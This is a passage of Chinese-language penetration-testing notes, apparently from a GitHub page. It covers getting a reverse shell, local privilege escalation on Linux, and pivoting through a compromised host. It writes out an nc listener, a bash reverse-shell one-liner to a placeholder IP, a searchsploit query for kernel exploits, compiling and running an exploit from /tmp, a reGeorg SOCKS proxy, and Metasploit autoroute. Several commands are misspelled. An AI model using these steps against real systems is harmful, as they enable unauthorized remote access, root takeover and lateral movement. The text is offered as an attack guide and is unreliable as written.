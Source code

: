 查看系统信息  
  
- gcc --version看到有gcc，就找c语言的脚本。另起一个终端
```
nc --lvvp 端口
```

  
监听新端口  
  
- shell里
```
bash -i >& /dev/tcp/xx.xx.xx.xx/端口 0>&1
```

  
反弹shell  
  
- 
```
searchspolit linux kernel 内核版本 --exclute=&#34;(PoC)|/dos/&#34;
```

  
搜索本地提权脚本。除去Poc和dos，就剩本地脚本了。同理，也可以在expolit.db上找  
  
- 上传脚本，但是靶机的网站根目录不可写(很少见)，写到/tmp目录  
  
- 
```
gcc -o 输出文件名 脚本名
```

  
编译，
```
./文件名
```

  
运行。不行就换脚本，脚本里有使用方法，事先看一下  
  
提不了就别提了，不是非要提权(试李妈半天都提不起，不知道这些exp谁写的)  
### 一级代理  
- 靶机
```
python reGeorgSocksProxy.py -u http://IP -p 代理端口
```

  
建立代理转发服务器  
  
- ipconfig或者其他的看下网段，
```
run autoroute -s 网端
```

  
开启路由转发  
  
- 
```
use auxiliary/scanner/discovery
```
